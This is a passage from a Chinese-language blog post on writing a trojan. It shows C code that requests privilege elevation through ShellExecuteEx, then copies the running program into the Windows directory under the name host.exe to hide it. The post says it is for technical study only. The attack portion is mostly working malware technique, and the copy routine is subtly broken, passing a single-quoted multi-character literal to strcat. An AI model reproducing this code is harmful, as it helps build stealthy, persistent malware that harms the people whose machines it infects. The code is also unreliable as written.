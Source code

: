  ```python
            sei.hwnd = NULL;
            sei.nShow = SW_NORMAL;
if(!ShellExecuteEx(&sei)){
exit(1);
}
exit(0);
}
}
}
int main(int argc,char*argv[]){
ElevatePrivileges();
}
 
 ```
	![sx5](./img/post_img/240901/sx5.png)
	
# 木马程序转移隐藏

- 运行后将木马转移到了c:/windows目录下，改名为host.exe
```python

void CopyFilesToWindowsDir(){
char srcPath[MAX_PATH], destPath[MAX_PATH], dllSrcPath[MAX_PATH];
GetModuleFileName(NULL, srcPath, MAX_PATH);
SHGetSpecialFolderPath(NULL, destPath, CSIDL_WINDOWS, FALSE);
    strcat(destPath,'\\host.exe');
CopyFile(srcPath, destPath, FALSE);
}

int main(int argc,char*argv[]){
CopyFilesToWindowsDir();
}

```

- ** 文章部分内容、图片转载于先知社区（https://xz.aliyun.com），如侵权请联系删除。**
--- 

# 再次声明

** 本文内容仅供同行技术学习交流使用，禁止使用本文内容进行违法用途！**
